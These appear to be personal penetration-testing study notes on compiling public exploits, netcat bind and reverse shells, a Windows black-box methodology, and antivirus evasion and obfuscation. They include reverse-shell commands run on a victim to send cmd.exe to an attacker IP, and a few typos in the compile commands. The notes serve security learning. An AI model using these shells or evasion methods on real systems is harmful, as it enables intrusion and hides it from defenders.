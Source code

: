 ## Cross-Compiliation Exploits
- Windows 64bit.
```bash
i686-w64-mingw32-gcc 9303.C -o exploit
```

 - Windows 32bit.
 ```bash
i686-w64-mingw32-gcc 9303.c -o exploit
```
 
- Linux.
 ```bash
gvv -pthread dirty.c -o dity -lcrypt
```

[Exploit-Database's binary exploits on GitLab](https://gitlab.com/exploit-database/exploitdb-bin-sploits)

## Bind Shell VS. Reverse Shell

A **bind shell** is a type of remote shell where the **attacker connects directly to a listener on the target system**, consequently allowing for execution of commands on the target system. A Netcat listener can be setup to execute a specific executable like cmd.exe or /bin/bash when a **client connects to the listener**.

- Bind shell is not the best choice. Most firewalls blocks income network trafiic which limit the usage of bind shells.

- On Attacker
```bash
nc -nv 10.15.25.21 1337 
```

- On Victim
```powershell
nc -lvnp 1337 -e cmd.exe
```

- A **reverse shell** is a type of remote shell where the **target connects directly to a listener on the attacker’s system**, consequently allowing for execution of commands on the target system.

- On Attacker
```bash
nc -lnvp 1337 
```

- On Victim
```powershell
nc -nv 10.14.42.2 1337 -e cmd.exe
```

- [Reverse Shell Cheat Sheet - PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
- [Bind Shell Cheatsheet - PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Bind%20Shell%20Cheatsheet.md)

## Windows Black Box Penetration Test 

The following diagram outlines the various phases involved in a typical penetration test. 
### Black Box Methodology: 
+ Host discovery 
+ Port scanning & enumeration 
+ Vulnerability detection/scanning 
+ Exploitation 
	+ Manual 
	- Automated 
- Post Exploitation 
	+ Privilege Escalation 
	+ Persistence  
	+ Dumping Hashes

### Scenario & Scope 

+ You have just begun your first job as a Junior Penetration Tester and have been assigned to assist in performing a penetration test on a client’s network. 

+ The pentest lead has assigned you to gain access/exploit a host running Windows Server 2008. + Your primary objectives are: 
	+ Identify services running on the target 
	+ Identify vulnerabilities within the services 
	+ Exploit these vulnerabilities to obtain an initial foothold

## MySQL Exploit

- When gaining access you can modify PHPMyAdmin configuration file to allow anyone to access it.

![[Pasted image 20230711032239.png]]
```powershell
C:\wamp\alias>net stop wampapache 
C:\wamp\alias>net start wampapache 
```

## AV Evasion & Obfuscation

> *Defense Evasion consists of techniques that adversaries use to avoid detection throughout their compromise. Techniques used for defense evasion include uninstalling/disabling security software or obfuscating encrypting data and scripts. Adversaries also leverage and abuse trusted processes to hide and masquerade their malware. **MITRE***

AV software will typically utilize signature, heuristic and behaviour based detection: 

1. Signature based detection - An AV signature is a unique sequence of bytes that uniquely identifies malware. As a result, you will have to ensure that your obfuscated exploit or payload doesn't match any known signature in the AV database.  We can bypass signature-based detection by modifying the malware's byte sequence, therefore changing the signature.

2. Heuristic-based detection - Relies on rules or decisions to determine whether a binary is malicious. It also looks for specific patterns within the code or program calls. 

3. Behavior based detection - Relies on identifying malware by monitoring it's behavior. (Used for newer strains of malware) .

### On-disk Evasion Techniques 

* Obfuscation - Obfuscation refers to the process of concealing something important, valuable, or critical. Obfuscation recrganizes code in order to make it harder to analyze or RE. 

* Encoding - Encoding data is a process involving changing data into a new format using a scheme. Encoding is a reversible process; data can be encoded to a new format and decoded to its original format. 

* Packing - Generate executable with new binary structure with a smaller size and therefore provides the payload with a new signature. 

* Crypters - Encrypts code or payloads and decrypts the encrypted code in memory. The decryption key/function is usually stored in a stub. 

### In-Memory Evasion Techniques 

+ Focuses on manipulation of memory and does not write files to disk. 
+ Injects payload into a process by leveraging various Windows APIs. 
+ Payload is then executed in memory in a separate thread.

## [Shellter](https://www.shellterproject.com/introducing-shellter/)

Shellter is a dynamic shellcode injection tool, and the first truly dynamic PE infector ever created.  
It can be used in order to inject shellcode into native Windows applications (currently 32-bit applications only).  
The shellcode can be something yours or something generated through a framework, such as Metasploit.

## Obfuscation PowerShell Code

+ Obfuscation refers to the process of concealing something important, valuable, or critical. 
+ Obfuscation reorganizes code in order to make it harder to analyze or RE. 
+ As a penetration tester, you will find yourself working with PowerShell code frequently. 
+ Most AV solutions will immediately flag malicious PowerShell code, as a result, you must be able to obfuscate/encode your PowerShell code and scripts in order to avoid detection.
+ **[Invoke-Obfuscation Tool On GitHub](https://github.com/danielbohannon/Invoke-Obfuscation)**
